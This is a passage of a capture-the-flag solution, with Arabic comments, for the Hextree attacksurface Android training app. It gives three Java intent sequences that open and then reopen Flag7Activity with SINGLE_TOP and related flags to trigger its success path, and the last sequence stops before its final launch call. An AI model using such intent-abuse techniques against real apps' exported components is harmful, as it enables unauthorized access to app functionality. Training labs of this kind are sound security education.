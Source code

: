 ```java
Intent firstIntent = new Intent();  
firstIntent.setClassName(  
        "io.hextree.attacksurface",  
        "io.hextree.attacksurface.activities.Flag7Activity"  
);  
firstIntent.setAction("OPEN");  
startActivity(firstIntent);  
  
Intent reopenIntent = new Intent();  
reopenIntent.setAction("REOPEN"); // مطلوب عشان نشغل success()  
reopenIntent.addFlags(Intent.FLAG_ACTIVITY_SINGLE_TOP | Intent.FLAG_ACTIVITY_REORDER_TO_FRONT);  
reopenIntent.setClassName(  
        "io.hextree.attacksurface",  
        "io.hextree.attacksurface.activities.Flag7Activity"  
);  
startActivity(reopenIntent);
```

2. باستخدام delay:

```java
 Intent openIntent = new Intent();
    openIntent.setClassName(
        "io.hextree.attacksurface",
        "io.hextree.attacksurface.activities.Flag7Activity"
    );
    openIntent.setAction("OPEN");
    startActivity(openIntent);

    // 2. بعد delay، نبعت "REOPEN" intent عشان نشغل onNewIntent
    new Handler(Looper.getMainLooper()).postDelayed(() -> {
        Intent reopenIntent = new Intent();
        reopenIntent.setClassName(
            "io.hextree.attacksurface",
            "io.hextree.attacksurface.activities.Flag7Activity"
        );
        reopenIntent.setAction("REOPEN");
        reopenIntent.addFlags(
            Intent.FLAG_ACTIVITY_SINGLE_TOP |  // استخدم الـ activity الموجود
            Intent.FLAG_ACTIVITY_CLEAR_TOP     // امسح instances تانية
        );
        startActivity(reopenIntent);
    }, 1000); // delay ثانية واحدة عشان نتأكد إن الـ activity شغال
```

3. باستخدام single_Top flag:

```java
Intent firstIntent = new Intent();  
firstIntent.setClassName(  
        "io.hextree.attacksurface",  
        "io.hextree.attacksurface.activities.Flag7Activity"  
);  
firstIntent.setAction("OPEN");  
startActivity(firstIntent);  
  
try { Thread.sleep(1000); } catch (Exception e) {}  
  
Intent reopenIntent = new Intent();  
reopenIntent.setAction("REOPEN"); // مطلوب عشان نشغل success()  
reopenIntent.addFlags(Intent.FLAG_ACTIVITY_SINGLE_TOP | Intent.FLAG_ACTIVITY_REORDER_TO_FRONT);  
reopenIntent.setClassName(  
        "io.hextree.attacksurface",  
        "io.hextree.attacksurface.activities.Flag7Activity"  
);  
```